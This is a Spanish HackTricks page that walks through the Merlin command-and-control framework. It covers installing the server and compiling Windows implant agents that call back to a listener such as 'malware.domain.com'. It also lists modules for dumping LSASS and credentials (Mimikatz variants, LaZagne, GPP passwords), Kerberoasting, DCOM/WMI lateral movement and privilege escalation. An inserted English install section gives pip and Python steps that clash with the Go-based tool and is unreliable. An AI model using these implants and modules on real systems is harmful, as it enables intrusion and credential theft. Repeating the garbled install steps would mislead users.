 <details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Experto en Red Team de AWS de HackTricks)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**swag oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>


# Instalación

## Instalar GO
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## Instalar Merlin

Install Merlin by following these steps:

1. Clone the Merlin repository from GitHub:
```bash
git clone https://github.com/username/merlin.git
```

2. Change directory to the Merlin folder:
```bash
cd merlin
```

3. Install the required dependencies using pip:
```bash
pip install -r requirements.txt
```

4. Run Merlin:
```bash
python merlin.py
```
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# Iniciar el Servidor de Merlin
```
go run cmd/merlinserver/main.go -i
```
# Agentes de Merlin

Puedes [descargar agentes precompilados](https://github.com/Ne0nd0g/merlin/releases)

## Compilar Agentes

Ve a la carpeta principal _$GOPATH/src/github.com/Ne0nd0g/merlin/_
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **Agentes de compilación manual**
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# Módulos

**La mala noticia es que cada módulo utilizado por Merlin se descarga de la fuente (Github) y se guarda en disco antes de usarlo. ¡Ten cuidado al usar módulos conocidos porque Windows Defender te atrapará!**


**SafetyKatz** --> Mimikatz modificado. Volcar LSASS a un archivo y lanzar:sekurlsa::logonpasswords a ese archivo\
**SharpDump** --> minivolcado para el ID de proceso especificado (LSASS por defecto) (Se dice que la extensión del archivo final es .gz pero en realidad es .bin, aunque es un archivo .gz)\
**SharpRoast** --> Kerberoast (no funciona)\
**SeatBelt** --> Pruebas de seguridad locales en CS (no funciona) https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> Compilar usando csc.exe /unsafe\
**Sharp-Up** --> Todas las comprobaciones en C# en powerup (funciona)\
**Inveigh** --> Herramienta de suplantación de PowerShellADIDNS/LLMNR/mDNS/NBNS y de intermediario (no funciona, necesita cargar: https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)\
**Invoke-InternalMonologue** --> Suplanta a todos los usuarios disponibles y obtiene una respuesta de desafío para cada uno (hash NTLM para cada usuario) (URL incorrecta)\
**Invoke-PowerThIEf** --> Robar formularios de IExplorer o hacer que ejecute JS o inyectar una DLL en ese proceso (no funciona) (y el PS parece que tampoco funciona) https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> Obtener contraseñas de navegadores (funciona pero no imprime el directorio de salida)\
**dumpCredStore** --> API del Administrador de Credenciales de Win32 (https://github.com/zetlen/clortho/blob/master/CredMan.ps1) https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> Detectar inyecciones clásicas en procesos en ejecución (Inyección clásica (OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread)) (no funciona)\
**Get-OSTokenInformation** --> Obtener información del token de los procesos y subprocesos en ejecución (Usuario, grupos, privilegios, propietario… https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class)\
**Invoke-DCOM** --> Ejecutar un comando (en otra computadora) a través de DCOM (http://www.enigma0x3.net.) (https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/)\
**Invoke-DCOMPowerPointPivot** --> Ejecutar un comando en otra PC abusando de los objetos COM de PowerPoint (ADDin)\
**Invoke-ExcelMacroPivot** --> Ejecutar un comando en otra PC abusando de DCOM en Excel\
**Find-ComputersWithRemoteAccessPolicies** --> (no funciona) (https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/)\
**Grouper** --> Volca todas las partes más interesantes de la directiva de grupo y luego busca en ellas posibles vulnerabilidades. (obsoleto) Echa un vistazo a Grouper2, parece muy bueno\
**Invoke-WMILM** --> WMI para moverse lateralmente\
**Get-GPPPassword** --> Busca groups.xml, scheduledtasks.xml, services.xml y datasources.xml y devuelve contraseñas en texto plano (dentro del dominio)\
**Invoke-Mimikatz** --> Usa mimikatz (volcado de credenciales por defecto)\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> Verifica los privilegios de los usuarios en las computadoras\
**Find-PotentiallyCrackableAccounts** --> Obtiene información sobre cuentas de usuario asociadas con SPN (Kerberoasting)\
**psgetsystem** --> obtiene sistema

**No se revisaron los módulos de persistencia**

# Resumen

Realmente me gusta la sensación y el potencial de la herramienta.\
Espero que la herramienta comience a descargar los módulos desde el servidor e integre algún tipo de evasión al descargar scripts.


<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o síguenos en **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
